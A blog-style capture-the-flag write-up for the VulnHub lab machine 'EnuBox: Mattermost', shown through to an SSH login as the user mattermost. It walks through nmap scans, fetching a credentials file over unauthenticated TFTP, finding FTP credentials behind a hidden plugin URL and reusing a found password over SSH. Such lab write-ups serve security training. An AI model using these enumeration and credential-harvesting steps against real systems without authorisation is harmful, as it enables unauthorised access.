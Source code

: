 ```yaml
---
title: Vulnhub - EnuBox Mattermost
description: My writeup on EnuBox Mattermost box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://www.pngitem.com/pimgs/m/31-312481_mattermost-icon-png-transparent-png.png)

Hi all, that was a really awesome box! Let's pwn it!

You can find the machine there > [EnuBox: Mattermost](https://www.vulnhub.com/entry/enubox-mattermost,414/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.13
$ nmap -sC -sV -p- -oN nmaptcp $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 20:27 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.13)
Host is up (0.00063s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:8b:e3:46:0e:c1:7f:a2:1a:c3:df:9d:46:54:ad:1c (RSA)
|   256 ff:5b:25:68:09:f5:45:2b:14:68:66:e0:ce:00:27:b3 (ECDSA)
|_  256 bb:de:d2:db:03:b7:5c:cf:d7:3b:b7:21:65:21:5d:e3 (ED25519)
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Sorry, This Page Can&#39;t Be Accessed
3389/tcp open  ms-wbt-server xrdp
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3657
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.segment.com/analytics.js/
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Tue, 23 Jun 2020 15:26:50 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 4wgq63s967gxbjca4oqryrjyey
|     X-Version-Id: 5.18.0.5.18.0.12da442d30d70d8726b0a9761a350d5a.false
|     Date: Tue, 23 Jun 2020 17:27:23 GMT
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name='viewport' content='width=device-width, initial-scale=1, maximum-scale=1, user-scalable=0'>
|     <meta name='robots' content='noindex, nofollow'>
|     <meta name='referrer' content='no-referrer'>
|     <title>Mattermost</title>
|     <meta name='mobile-web-app-capable' content='yes'>
|     <meta name='application-name' content='Mattermost'>
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Tue, 23 Jun 2020 17:27:23 GMT
|_    Content-Length: 0
MAC Address: 00:0C:29:81:A9:13 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

You may notice the `nmaptcp`, that's because we have to run a UDP scan as well. Note : UDP scan is slower than TCP.

```
$ nmap -sU $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 22:23 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.6)
Host is up (0.00054s latency).
Not shown: 996 closed ports
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
631/udp  open|filtered ipp
5353/udp open|filtered zeroconf
```

`tftp` seems interesting, few words about `tftp`.

TFTP (Trivial File Transfer Protocol) it is simpler than FTP, does file transfer between client and server but does not provide user authentication.

If we try to connect, we can see that we can't list the files.

```
$ tftp $ip
tftp> ?
Commands may be abbreviated.  Commands are:

connect 	connect to remote tftp
mode    	set file transfer mode
put     	send file
get     	receive file
quit    	exit tftp
verbose 	toggle verbose mode
trace   	toggle packet tracing
status  	show current status
binary  	set mode to octet
ascii   	set mode to netascii
rexmt   	set per-packet retransmission timeout
timeout 	set total retransmission timeout
?       	print help information
tftp> ls
?Invalid command
```

Now if we visit the webpage we can see this :

![](https://i.imgur.com/aWPbryI.png)

We can try to download the `README.md` file from `tftp`.

```
tftp> get README.md
Received 65 bytes in 0.0 seconds
tftp> quit
$ cat README.md 
Hello Admin,

Please use the following key: ComplexPassword0!
```

We got some creds! `admin:ComplexPassword0!` we can use them under port `8065`, there Mattermost is running an open-source online chat service & we're in!

After some enumeration under `plugin marketplace`, i noticed the `zoom` plugin has a weird URL :

![](https://i.imgur.com/gUCqB6k.png)

I used inspect element to copy the link and it gives us some creds for `ftp` : 

```
$ curl http://$ip/JK94vsNKAns6HBkG/AxRt6LwuA7A6N4gk/index.html
Hello Admin,

FTP credentials help you edit, transfer and delete files from your site. This is why it's important to keep these credentials handy.

FTP Credentials: ftpuser / ftppassword

Make sure to keep these to yourself.
```

## Shell as mattermost

After we login into, we can see a user `mattermost` with a `Welcome!!!` message.

```
$ ftp $ip
Connected to 192.168.1.6.
220 (vsFTPd 3.0.3)
Name (192.168.1.6:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jan 05 14:11 .
drwxr-xr-x    4 ftp      ftp          4096 Jan 05 13:59 ..
-rw-r--r--    1 ftp      ftp           220 Jan 05 13:59 .bash_logout
-rw-r--r--    1 ftp      ftp          3771 Jan 05 13:59 .bashrc
-rw-r--r--    1 ftp      ftp           807 Jan 05 13:59 .profile
-rw-r--r--    1 ftp      ftp          8980 Jan 05 13:59 examples.desktop
drwxr-xr-x    3 ftp      ftp          4096 Jan 05 14:11 users
226 Directory send OK.
ftp> cd users
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jan 05 14:11 mattermost
226 Directory send OK.
ftp> cd mattermost
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            11 Jan 05 14:11 message
226 Directory send OK.
ftp> get message
local: message remote: message
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for message (11 bytes).
226 Transfer complete.
11 bytes received in 0.00 secs (9.8643 kB/s)
ftp> exit
221 Goodbye.
$ cat message 
Welcome!!!
```

I tried them `mattermost:Welcome!!!` with SSH and i got in!

```
$ ssh mattermost@$ip
mattermost@192.168.1.6's password: 
mattermost@ubuntu:~$ whoami
mattermost
```
